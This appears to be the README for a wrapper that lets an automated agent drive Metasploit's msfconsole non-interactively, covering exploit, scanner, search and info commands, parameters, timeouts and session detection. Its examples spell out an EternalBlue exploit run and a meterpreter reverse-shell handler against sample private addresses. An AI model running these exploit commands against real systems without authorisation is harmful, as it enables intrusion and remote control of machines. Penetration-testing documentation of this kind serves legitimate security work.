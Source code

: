 # msfconsole

Metasploit Framework penetration testing tool

**Version:** 1.0.0
**Author:** Wish Framework Team
**Category:** exploitation
**Tags:** exploitation, pentesting, vulnerability, msf, metasploit

## Requirements

- metasploit-framework

## Features

### Non-Interactive Execution

The tool runs msfconsole in non-interactive mode using the `-x` flag for command execution. Commands are automatically terminated with `exit -y` for clean shutdown.

### Tool Parameters Support

The tool supports both traditional command strings and structured tool parameters for command generation. When `tool_parameters` are provided with a `module` key, commands are built automatically from the parameters.

### Session Management

Automatically detects and reports session creation in the metadata, including session IDs when Metasploit sessions are opened.

### Timeout Configuration

- Default timeout: 600 seconds for exploits, 300 seconds for auxiliary modules
- Configurable timeout via `timeout_sec` parameter
- Proper timeout handling with process termination

### Output Analysis

Intelligent success/failure detection based on:

- Exit codes
- Output content analysis for success indicators (Session opened, Exploit completed)
- Failure detection (Exploit failed, Connection refused, etc.)

## Capabilities

### exploit

Run an exploit module against target(s)

**Parameters:**

- `module`: The exploit module path (e.g., exploit/windows/smb/ms17_010_eternalblue)
- `rhosts`: Target host(s) - IP address or range
- `rport`: Target port (optional, module default used if not specified)
- `payload`: Payload to use (optional, module default used if not specified)
- `lhost`: Local host for reverse connection (required for reverse payloads)
- `lport`: Local port for reverse connection (optional, default: 4444)
- `options`: Additional module options as key-value pairs (optional)

**Default Timeout:** 600 seconds

**Examples:**

```bash
use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.100; set LHOST 192.168.1.10; exploit
```

```bash
use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.10; exploit
```

### auxiliary

Run an auxiliary module (scanners, fuzzers, etc.)

**Parameters:**

- `module`: The auxiliary module path (e.g., auxiliary/scanner/smb/smb_version)
- `rhosts`: Target host(s) - IP address or range
- `rport`: Target port (optional)
- `options`: Additional module options as key-value pairs (optional)

**Default Timeout:** 300 seconds

**Examples:**

```bash
use auxiliary/scanner/smb/smb_version; set RHOSTS 192.168.1.0/24; run
```

```bash
use auxiliary/scanner/portscan/tcp; set RHOSTS 192.168.1.100; set PORTS 1-1000; run
```

### search

Search for modules by name, platform, or CVE

**Parameters:**

- `query`: Search query (module name, CVE, platform, etc.)
- `type`: Module type filter (optional: exploit, auxiliary, post, payload)

**Default Timeout:** 60 seconds

**Examples:**

```bash
search type:exploit platform:windows smb
```

```bash
search cve:2017-0144
```

```bash
search apache struts
```

### info

Get detailed information about a module

**Parameters:**

- `module`: Full module path to get information about

**Default Timeout:** 30 seconds

**Examples:**

```bash
info exploit/windows/smb/ms17_010_eternalblue
```

```bash
info auxiliary/scanner/smb/smb_version
```

## Command Generation

The tool supports two modes of command generation:

### 1. Traditional Command String

```python
CommandInput(command="use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.100; exploit")
```

### 2. Tool Parameters (Recommended)

```python
CommandInput(
    command="exploit",
    tool_parameters={
        "module": "exploit/windows/smb/ms17_010_eternalblue",
        "rhosts": "192.168.1.100",
        "lhost": "192.168.1.10"
    }
)
```

When tool parameters are provided, the tool automatically builds the command sequence using `generate_command()` method.

## Metadata Extraction

The tool extracts the following metadata from msfconsole output:

- **session_id**: Session ID when a session is opened
- **session_opened**: Boolean indicating if a session was created
- **module**: Module name used in the execution
- **targets**: Target hosts (RHOSTS value)
- **payload**: Payload used in exploit
- **matching_modules**: Number of modules found in search results
- **vulnerable**: Boolean indicating if target appears vulnerable (auxiliary scans)

## Safety Features

### Command Validation

- Validates commands contain only allowed msfconsole commands
- Blocks potentially dangerous modules (DoS, AV killing)
- Ensures proper command structure

### Process Management

- Automatic process cleanup on timeout
- Proper signal handling for process termination
- Working directory isolation

### Parameter Mapping

Automatic mapping from tool parameter names to MSF parameter names:

- `rhosts` → `RHOSTS`
- `lhost` → `LHOST`
- `lport` → `LPORT`
- `rport` → `RPORT`
- `payload` → `PAYLOAD`

## Error Handling

- Connection failures properly detected
- Timeout handling with graceful termination
- Module not found errors
- Invalid parameter errors
- Process execution errors
